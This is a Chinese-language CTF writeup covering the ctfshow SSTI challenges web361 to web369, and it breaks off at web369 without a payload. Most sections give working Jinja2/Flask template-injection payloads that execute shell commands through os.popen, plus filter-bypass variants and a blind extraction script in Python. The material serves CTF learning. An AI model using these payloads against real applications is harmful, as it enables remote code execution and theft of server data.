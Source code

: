 ```yaml
---
title: "Ctfshow Web入门[SSTI] Writeup"
date: 2022-08-23T19:05:46+08:00
lastmod: 2022-08-23T19:05:46+08:00
draft: false
author: "X1r0z"

tags: []
categories: []

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


<!--more-->

## web361

```
http://b32fe9fe-022c-426e-86e1-60f89fa6b833.challenge.ctf.show/?name={{''.__class__.__mro__[-1].__subclasses__()}}
```

找到 `<class 'os._wrap_close'>`

索引不太好找, 大致估一下然后微调

```
http://b32fe9fe-022c-426e-86e1-60f89fa6b833.challenge.ctf.show/?name={{''.__class__.__mro__[-1].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```

## web362

试了下发现 `__subclasses__()` 后的内容被过滤了, 不能访问列表里面的内容

换成 flask 里的内置类, 这里用 config

```
http://3d34ef4f-b839-44b9-b203-6a0bac9b3a96.challenge.ctf.show/?name={{ config.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /flag").read()')}}
```

实际上随便一个不存在的类也可以执行成功, 因为 flask 单独对 undefined 的类做了包装

## web363

过滤了引号

用 request 逃逸

```
http://53fb7f41-e2e2-4c3b-be99-5698927a04f1.challenge.ctf.show/?name={{().__class__.__mro__[-1].__subclasses__()[132].__init__.__globals__[request.args.a](request.args.b).read()}}&a=popen&b=cat /flag
```

## web364

过滤了引号和 request.args

换成 request.form 提示 `Method Not Allowed`

于是换成 request.cookies

```
http://d690e47a-453a-46a4-ae50-62777cc2ee8c.challenge.ctf.show/?name={{xx.__init__.__globals__[request.cookies.a][request.cookies.b](request.cookies.c)}}
```

cookie 内容为 `a=__builtins__; b=eval; c=__import__('os').popen('cat /flag').read()`

后来发现用 requests.values 也行, 同时接收 get 和 post 的数据

## web365

同上, 还过滤了 `[]`

使用 `__getitem__()` 绕过

```
http://c2ffa348-5bb5-4f54-afb4-d5bbcb941b57.challenge.ctf.show/?name={{xx.__init__.__globals__.__getitem__(request.values.a).eval(request.values.b)}}&a=__builtins__&b=__import__('os').popen('cat /flag').read()
```

## web366

还过滤了下划线

通过 `|attr()` 过滤器绕过

```
http://36f7bb7e-2b2d-4455-aaf5-6c3a4e42ec5b.challenge.ctf.show/?name={{(xx|attr(request.values.a)|attr(request.values.b)).get(request.values.c).eval(request.values.d)}}&a=__init__&b=__globals__&c=__builtins__&d=__import__('os').popen('cat /flag').read()
```

注意 get() 前面的内容需要用括号包一次, 不然后面的语句会被认为是过滤器的代码

## web367

听说是过滤了 os?

payload 同上

## web368

过滤了 `{{}}`

貌似不出网, 用盲注试试

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208232146485.png)

python 脚本

```python
import requests

dicts = 'ctfshow{abde-0123456789}'

flag = ''

for i in range(100):
    for s in dicts:
        url = 'http://7606dc4d-5a13-4131-8496-cd184cf9f1ea.challenge.ctf.show/'
        params = {
            'name': '{% if (xx|attr(request.values.a)|attr(request.values.b)).get(request.values.c).eval(request.values.d) == request.values.e%}OK{%endif%}',
            'a': '__init__',
            'b': '__globals__',
            'c': '__builtins__',
            'd': "__import__('os').popen('cat /flag').read()[" + str(i) + "]",
            'e': s
        }
        res = requests.get(url,params=params)
        if 'OK' in res.text:
            flag += s
            print(flag)
            break
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208232157916.png)

wp 上看到直接 print 就行...

```
http://7606dc4d-5a13-4131-8496-cd184cf9f1ea.challenge.ctf.show/
?name={%print((xx|attr(request.values.a)|attr(request.values.b)).get(request.values.c).eval(request.values.d))%}&a=__init__&b=__globals__&c=__builtins__&d=__import__('os').popen('cat /flag').read()
```

或者是 `{% set x=....%}` 设置一个变量, 然后再把变量打印出来

## web369

又过滤了 request

